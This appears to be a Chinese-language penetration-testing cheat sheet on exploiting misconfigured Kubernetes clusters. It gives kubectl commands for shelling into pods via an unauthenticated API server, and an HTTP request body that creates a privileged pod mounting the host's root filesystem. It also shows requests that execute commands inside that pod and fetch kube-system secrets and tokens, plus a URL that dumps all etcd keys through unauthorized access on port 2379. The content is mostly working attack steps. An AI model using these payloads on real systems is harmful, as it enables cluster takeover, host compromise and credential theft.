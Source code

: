 获得pod的shell

```shell
kubectl -s http://ip:6443/ get namespaces
kubectl exec -it <pod-name> -n <namespace> bash
```

##### 通过http请求攻击

```php
#查看pods
https://192.168.4.110:6443/api/v1/namespaces/default/pods?limit=500

#创建特权容器
https://192.168.4.110:6443/api/v1/namespaces/default/pods/test-4444
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}

#执行命令
https://192.168.4.110:6443/api/v1/namespace/default/pods/test-4444/exec?command=whoami


# 获取token
/api/v1/namespaces/kube-system/secrets/
```



### etcd未授权访问

#### 利用场景

> 配置文件：  /etc/kubernetes/manifests/etcd.yaml
>
> etcd服务有V2和V3两个版本
>
> k8s默认配置下etcd服务只会监听本地的2379端口

- 没有配置--client-cert-auth 参数（无证书校验），外部可以直接未授权访问获取secrets和token来接管API Server
- 配置--client-cert-auth 参数（有证书校验），本地127.0.0.1:2379可免认证访问Etcd服务，但通过其他地址访问要携带cert进行认证访问，一般配合ssrf或其他利用，较为鸡肋。



#### 漏洞利用 

访问

```php
http://ip:2379/v2/keys/?recursive=true
```
